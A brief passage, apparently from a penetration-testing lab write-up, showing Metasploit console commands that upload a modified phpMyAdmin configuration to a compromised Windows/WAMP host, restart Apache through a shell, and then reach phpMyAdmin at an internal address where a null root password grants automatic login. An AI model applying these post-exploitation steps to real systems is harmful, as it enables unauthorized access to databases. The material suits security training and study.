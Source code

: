 ![phpmyadmin.conf](.gitbook/assets/image-20230424125503330.png)

```bash
# In the MSFconsole
upload phpmyadmin.conf

# Apache service must be restarted
shell
net stop wampapache
net start wampapache
```

- Access phpMyAdmin
  - `http://10.2.26.45:8585/phpmyadmin/`
  - it automatically logs in since the `root` password is `null`
